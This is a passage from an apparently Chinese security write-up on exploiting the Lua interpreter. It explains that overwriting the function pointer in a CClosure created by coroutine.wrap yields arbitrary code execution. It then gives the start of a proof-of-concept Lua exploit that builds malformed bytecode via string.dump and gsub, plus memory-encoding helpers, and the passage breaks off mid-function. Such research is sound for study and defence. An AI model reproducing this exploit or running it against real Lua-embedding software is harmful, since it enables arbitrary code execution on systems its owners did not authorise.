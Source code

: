 0x02 代码执行
=====

LUA使用OP_CALL进行函数调用，luaD_precall中处理了C函数CALL，如下

```
/* if is a C function, call it */
    CallInfo *ci;
    int n;
    ci = inc_ci(L);  /* now `enter' new function */
    ci->func = restorestack(L, funcr);
    L->base = ci->base = ci->func + 1;
    ci->top = L->top + LUA_MINSTACK;
    ci->nresults = nresults;
    lua_unlock(L);
    n = (*curr_func(L)->c.f)(L);  /* do the actual call */

```

LUA使用lua_pushcclosure函数创建C函数闭包对象，LUA基础库luaB_cowrap会调用lua_pushcclosure，创建一个CClosure *对象，具体LUA脚本如下：

```
co = coroutine.wrap(function() end)

```

CClosure数据结构内存布局如下：

![p2](http://drops.javaweb.org/uploads/images/16b6ec161d10fdd6a48b7dd6833f5107b44be323.jpg)

其object偏移位置32为函数指针f，通过前面的内存写技术可以将f替换为指定的函数地址即可实现任意代码执行。

0x03 附：POC代码
=====

```
asnum = loadstring(string.dump(function(x)
  for i = x, x, 0 do
    return i
  end
end):gsub("\96%z%z\128", "\22\0\0\128"))

ub4 = function(x) -- Convert little endian uint32_t to char[4]
  local b0 = x % 256; x = (x - b0) / 256
  local b1 = x % 256; x = (x - b1) / 256
  local b2 = x % 256; x = (x - b2) / 256
  local b3 = x % 256
  return string.char(b0, b1, b2, b3)
end

f2ii = function(x) -- Convert double to uint32_t[2]
  if x == 0 then return 0, 0 end
  if x < 0 then x = -x end

  local e_lo, e_hi, e, m = -1075, 1023
  while true do -- this loop is math.frexp
    e = (e_lo + e_hi)
    e = (e - (e % 2)) / 2
    m = x / 2^e
    if m < 0.5 then e_hi = e elseif 1 <= m then e_lo = e else break end
  end

  if e+1023 <= 1 then
    m = m * 2^(e+1074)
    e = 0
  else
    m = (m - 0.5) * 2^53
    e = e + 1022
```
